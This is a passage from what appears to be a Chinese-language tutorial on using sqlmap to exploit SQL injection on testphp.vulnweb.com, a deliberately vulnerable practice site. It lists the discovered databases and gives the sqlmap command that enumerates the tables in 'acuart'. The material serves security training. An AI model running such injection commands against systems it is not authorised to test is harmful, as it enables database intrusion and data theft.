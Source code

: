 *![](img/36d64097b90333202ca7c3f6d46f8154.png)*

*图 2*

*注意，在可用的数据库[2]中，我们有 2 个数据库名称。我们会去找阿夸特。图 3。*

*`[*] acuart
[*] information_schema`*

*![](img/9889ad7adbfdbe98485f70fd4834dd4b.png)*

*图 3*

*现在，我们将在 DB acuart 中寻找可用的表。*

***使用命令:** `#sqlmap -u “[http://testphp.vulnweb.com/listproducts.php?cat=1](http://testphp.vulnweb.com/listproducts.php?cat=1)” -D acuart --tables`图 4*
